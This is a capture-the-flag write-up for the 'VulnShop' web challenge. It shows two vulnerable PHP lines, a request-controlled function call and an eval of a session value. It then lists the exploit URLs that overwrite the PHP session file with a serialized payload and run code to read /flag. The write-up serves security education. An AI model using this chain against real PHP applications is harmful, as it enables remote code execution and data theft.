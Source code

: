 # VulnShop (WEB)

## Task
We're preparing a website for selling some important vulnerabilities in the future. You can browse some static pages on it, waiting for the official release.
http://vulnshop.teaser.insomnihack.ch

## Soluton

[1] This line of code allows us to execute arbitrary function with arbitrary second argument. First argument is name of temp file.
```php
$_REQUEST['method']("./".$_SESSION['challenge'], $_REQUEST['answer']); 
```
[2] This line of code allows us to eval code in SESSION variable.
```php
if(eval("return ".$_SESSION['challenge']." ;") === $response) return true; 
```
So we need to rewrite SESSION variable.

* Generate SESSION_ID and create temp file /tmp - http://vulnshop.teaser.insomnihack.ch/?page=contactus
* Write php-code (which serialized into string) into temp-file [1] - http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=file_put_contents&answer=challenge|s:35:"print_r(file_get_contents('/flag'))";
* Rewrite own session file by temp-file [1] - http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=rename&answer=/var/lib/php/sessions/sess_b26cv2ap9haj27pf2t8rievn43
* Execute code in session file [2] - http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=verifyFromMath&answer=1
